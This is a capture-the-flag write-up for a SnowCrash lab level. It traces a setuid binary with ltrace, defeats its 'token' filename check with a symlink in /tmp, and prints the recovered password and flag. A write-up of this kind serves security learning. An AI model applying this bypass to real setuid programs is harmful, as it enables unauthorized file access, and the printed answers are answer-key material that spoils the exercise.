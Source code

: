 # Level 07

- Once logged in, you will see couple files
```
???$ ssh level08@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level08@localhost's password:
level08@SnowCrash:~$
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$
level08@SnowCrash:~$ ls -ls
total 16
12 -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
 4 -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

let's run the binary and see what it does

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
...
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
as seen above, the `token` cannot be accesseed within the `level08` user

of course, the below would not work ;)

```
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

`ltrace` with the token that is not accessible, below is the result
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                      = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                  = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```
the `strstr` function is used to check if the filename contains `token`, it cannot be executed.

let's try using the symbolic link to resolve this
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/passcode
level08@SnowCrash:~$ ls -ls /tmp/passcode
0 lrwxrwxrwx 1 level08 level08 24 May 11 04:57 /tmp/passcode -> /home/user/level08/token
```
at least the permissions are set, and let's run

```
level08@SnowCrash:~$ ./level08 /tmp/passcode
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
